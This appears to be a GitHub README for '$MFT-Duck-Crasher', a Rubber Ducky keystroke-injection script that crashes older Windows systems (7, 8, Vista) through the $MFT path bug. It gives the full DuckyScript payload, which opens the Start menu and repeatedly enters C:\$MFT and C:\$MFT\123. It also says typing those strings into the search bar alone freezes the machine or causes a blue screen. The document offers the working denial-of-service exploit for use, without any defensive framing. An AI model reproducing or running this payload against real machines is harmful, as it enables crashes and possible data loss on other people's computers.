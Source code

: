 # -$MFT-Duck-Crasher
A Simple Script for Rubber Ducky which Exploits Windows $MFT Vulnerability
$MFT is used by NTFS systems to manage some metadata.
 This fallace has recently been discovered, which has not yet been closed. Works on windows 7, 8 and vista, dont work on windows 10. I think work on Xp and earlier.
This Script dont require any special firmware on the Rubber Ducky (TwinDuck Firmare etc.).
You can also use this two strings directly on the Windows SearchBar to crash a computer.
The system crash lasts until the machine is switched off, or until the blue screen of death appears;)

A system crash demonstration using the two strings with the following paths: c:\$MFT & c:\$MFT\123 
can be found here:
https://www.youtube.com/watch?v=vYL9UQRwUZc&t=6s






<a href="http://www.youtube.com/watch?feature=player_embedded&v=vYL9UQRwUZc
" target="_blank"><img src="http://img.youtube.com/vi/vYL9UQRwUZc/0.jpg" 
alt="$MFT" width="600" height="450" border="100" /></a> 



$MFT-Duck-Crasher Payload

REM works on w7 - w8 - Vista (and i think xp and earlier too)
REM it uses a high delay to support even older computers
DELAY 1000
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT
DELAY 500
ENTER
DELAY 700
REM the 2nd enter is to close the error
ENTER
DELAY 500
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT\123
DELAY 500
ENTER
DELAY 700
ENTER
DELAY 500
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT
DELAY 500
ENTER
DELAY 700
ENTER
DELAY 500
CONTROL ESCAPE
DELAY 500
STRING C:\$MFT\123
DELAY 500
ENTER
DELAY 700
ENTER
                                                            
